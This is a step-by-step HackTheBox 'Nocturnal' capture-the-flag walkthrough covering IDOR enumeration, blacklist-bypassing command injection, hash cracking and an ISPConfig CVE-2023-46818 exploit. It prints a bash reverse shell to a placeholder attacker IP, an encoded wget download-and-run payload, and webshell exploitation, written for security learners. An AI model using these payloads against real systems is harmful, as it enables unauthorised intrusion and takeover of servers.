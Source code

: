 This is a comprehensive, step-by-step walkthrough for the "Nocturnal" machine from HackTheBox. It walks through reconnaissance, exploitation via IDOR and command injection, and privilege escalation through hash cracking and CVE exploitation. It's tailored for learners aiming to enhance their web and privilege escalation skills, particularly through realistic misconfigurations and vulnerable services.

## 1. Reconnaissance

### 1.1 Nmap Scan
Scan the top 1,000 ports and identify services:

```bash
nmap -Pn -sT 10.10.11.64 --top-ports 1000
# or, fuller scan
sudo nmap -sCV -T4 10.10.11.64 -oA nmap-initial
```

**Result**: Ports 22 (SSH) and 80 (HTTP) are open.

### 1.2 Hosts File Setup
Since the web service expects a specific domain, add this to your `/etc/hosts`:

```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

---

## 2. Website Exploration & IDOR Enumeration

### 2.1 Register & File Upload Functionality
Visit: [http://nocturnal.htb/](http://nocturnal.htb)

- Register any user (random email/username).
- Upload a file (.pdf, .doc, .odt).
- PHP files are blocked.

### 2.2 Test File Download URL & Username Brute Force
Test IDOR:

```text
http://nocturnal.htb/view.php?username=<user>&file=<filename.pdf>
```

Use **Burp Suite Intruder** to brute-force usernames.

**Result**: User `amanda` has `privacy.odt` file. This reveals Amanda's password.

---

## 3. Escalate to Admin & Source Analysis

### 3.1 Login as Amanda
Use credentials found from `privacy.odt`.

### 3.2 Access Admin Panel and Source Code
- Admin panel is available
- Backup source code is accessible

---

## 4. Backup Function Exploit (Command Injection)

### 4.1 Analyze Code: Bypassing the Blacklist
- Blacklist blocks `; & | $ space \` { } &&`
- Bypass using:
  - `%0a`: newline
  - `%09`: tab (acts like space)

### 4.2 Exploit: Stage 1 – Download Reverse Shell

Attacker Setup:
```bash
echo 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > 1.sh
python3 -m http.server 8089
nc -lvnp 4444
```

Trigger download via password field:
```text
%0abash%09-c%09"wget%09http://<YOUR_IP>:8089/1.sh"
```

### 4.3 Exploit: Stage 2 – Execute Reverse Shell
```text
%0abash%09-c%09"bash%091.sh"
```

**Result**: Shell as `www-data`.

---

## 5. User Privilege Escalation

### 5.1 Extract & Crack User Credentials

```bash
cd /var/www/nocturnal_database/
cp nocturnal_database.db /tmp/
sqlite3 nocturnal_database.db
sqlite> .dump
```

Crack using hashcat:

```bash
hashcat -m 0 tobias.hash rockyou.txt
```

**Password**: `slowmotionapocalypse`

### 5.2 SSH as User

```bash
ssh tobias@nocturnal.htb
# Password: slowmotionapocalypse
cat ~/user.txt
```

---

## 6. Root Privilege Escalation

### 6.1 Discover Internal Service

```bash
ss -tulnp
```

Find `127.0.0.1:8080`

### 6.2 Port Forward & Access ISPConfig

```bash
ssh -L 8787:127.0.0.1:8080 tobias@nocturnal.htb
```

Browse: [http://localhost:8787/](http://localhost:8787/)

### 6.3 ISPConfig Exploit (CVE-2023-46818)

Login:

- Username: `admin`
- Password: `slowmotionapocalypse`

Check version: `3.2.10p1`

Exploit:

```bash
git clone https://github.com/blindma1den/CVE-2023-46818-Exploit.git
cd CVE-2023-46818-Exploit
python3 exploit.py http://localhost:8787/ admin slowmotionapocalypse
```

Webshell (sh.php) drops.

```bash
ispconfig-shell# id
ispconfig-shell# cat /root/root.txt
```
